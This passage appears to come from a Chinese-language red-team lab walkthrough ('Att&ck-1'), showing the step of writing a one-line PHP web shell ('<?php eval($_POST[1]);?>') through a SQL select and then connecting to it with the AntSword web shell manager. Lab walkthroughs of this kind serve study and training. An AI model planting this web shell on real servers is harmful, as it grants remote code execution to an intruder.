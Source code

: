 ![Untitled](Att&ck-1%20e6cdaf0ecee347919ad5d9d090eddf75/Untitled%2013.png)

成功写入

5、写入一句话木马

```csharp
select "<?php eval($_POST[1]);?>";
```

![Untitled](Att&ck-1%20e6cdaf0ecee347919ad5d9d090eddf75/Untitled%2014.png)

成功执行

蚁剑连接
